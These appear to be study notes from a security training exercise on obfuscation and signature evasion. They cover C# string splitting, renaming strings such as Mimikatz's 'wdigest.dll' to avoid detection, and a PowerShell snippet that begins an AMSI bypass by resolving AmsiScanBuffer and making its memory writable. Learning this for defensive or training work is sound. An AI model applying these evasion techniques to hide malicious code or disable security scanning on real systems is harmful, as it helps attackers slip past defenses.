 ```csharp
public static string GetMessageFormat // Format the public method
{
    get // Return the property value
    {
        var sb = new StringBuilder( @"\{\{""GUID"":""{0}""," ); // Start the built-in concatenation method (Remove the '\' symbols on the curly braces)
        sb.Append(@"""Type"":{1},"); // Append substrings onto the string
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"","); 
        sb.Append(@"""HMAC"":""{5}""\}\}");  // (Remove the '\' symbols on the curly braces)
        return sb.ToString(); // Return the concatenated string to the class
    }
}

string MessageFormat = GetMessageFormat
```

	- The string is split into multiple parts and then concatenated back again.

- Recapping this case study, **class splitting** is used to create a new class for the local variable to concatenate.
- We will cover how to recognize when to use a speccific method later in this task and throughout the practical challenge.


### Removing and Obscuring Identifiable Information

- The core concept behind **removing identifiable information** is similar to obscuring variable names as covered in `Obfuscation Principles`.
- In this task, we are taking it one step further by specifically applying it to identified signatures in any objects including methods and classes.


- An example of this can be found in Mimikatz where an alert is generated for the string `wdigest.dll`.
- This can be solved by replacing the string with any `random identifier` changed throughout all instances of the string.
- This can be categorized in the obfuscation taxonomy under the **method proxy technique**.

- Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet, using **AmsiTrigger** to visual signatures:

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
```